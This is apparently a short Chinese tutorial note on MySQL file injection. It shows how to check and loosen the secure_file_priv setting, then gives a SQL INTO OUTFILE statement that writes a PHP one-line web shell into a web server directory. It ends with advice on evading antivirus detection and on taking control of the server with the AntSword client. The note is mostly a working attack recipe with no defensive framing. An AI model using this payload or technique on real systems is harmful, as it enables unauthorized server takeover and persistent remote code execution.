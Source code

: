# 文件注入

1. ```sql
   SHOW VARIABLES LIKE '%secure%'
   ```

2. 查看是否具有文件写入权限：

   | Variable_name            | Value |
   | ------------------------ | ----- |
   | require_secure_transport | OFF   |
   | secure_auth              | ON    |
   | secure_file_priv         | NULL  |

3. 主要关注 secure_file_priv，priv 即 privilege，这是一个用于指定数据库服务器上允许执行LOAD DATA INFILE和LOAD XML语句时的文件路径限制的系统变量。如果设置了这个变量，那么只有在指定路径下的文件才能被加载。当前情况下，它被设置为NULL，这意味着没有明确指定的路径限制，任何地方的文件都**不**可以被加载。测试时需要在 my.ini 中配置 secure_file_priv="" 空，才能使任意地方文件都可以加载。

4. 注入木马

5. ```sql
   select 1,2,'<?php @eval($_POST["nanamo"])?>' into outfile "C:\\phpstudy_pro\\WWW\\hackin.php"
   ```

6. Linux 服务器 可能的路径："/var/www/html/test/"

7. 实战时需要考虑绕过木马检测，这种一句话木马很快就会被 windows 自带杀毒软件杀掉

8. 用 antsword 连接，获取服务器控制权

